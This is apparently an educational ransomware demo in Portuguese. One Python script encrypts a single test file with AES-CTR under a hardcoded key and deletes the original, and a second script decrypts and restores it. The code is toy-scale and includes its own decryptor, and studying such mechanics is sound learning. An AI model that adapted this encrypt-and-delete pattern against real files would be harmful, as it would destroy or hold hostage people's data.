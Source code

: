 # Ransonware
# SCRIPT PARA ENCRYPTAR DOC DE .TXT 

import os
import pyaes

## abrir o arquivo a ser criptografado

file_name = "teste.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo

os.remove(file_name)

## chave de criptografia

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()

## SCRIPT PARA DESCRYPTAR DOC DE .TXT 

import os
import pyaes

## abrir o arquivo criptografado

file_name = "teste.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografia

key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado

os.remove(file_name)

## criar o arquivo descriptografado

new_file = "teste.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
